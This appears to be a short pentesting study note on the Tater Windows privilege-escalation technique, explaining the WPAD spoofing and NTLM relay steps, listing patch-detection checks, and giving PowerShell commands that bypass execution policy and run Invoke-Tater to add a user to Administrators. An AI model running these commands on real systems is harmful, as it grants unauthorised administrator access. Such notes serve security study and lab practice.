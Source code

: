 - This trick **was patched starting in Windows 10**, but it still works on **Windows 7**, **Server 2008**, and some **Server 2012** builds.

Tater exploits a Windows **NTLM relay + NBNS spoofing vulnerability** by:
1. **Spoofing WPAD (Web Proxy Auto-Discovery Protocol)** to redirect SYSTEM traffic.
2. Triggering **Windows Defender** (or other SYSTEM-level services) to fetch a proxy auto-config script (`wpad.dat`).
3. SYSTEM process sends **HTTP → SMB request** to `localhost`.
4. Tater **relays that SMB auth token** to itself, impersonates SYSTEM.
5. Executes a command as SYSTEM (in your case: adding user `user` to `Administrators`).


# Possible Detection
---
- `wmic qfe | findstr 3164038`
- `windows_exploit_suggester.py`
# Exploitation
---
- `powershell.exe -nop -ep bypass`
- `. .\Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net loc algroup administrators user /add"`
	- ![[Pasted image 20250419041359.png]]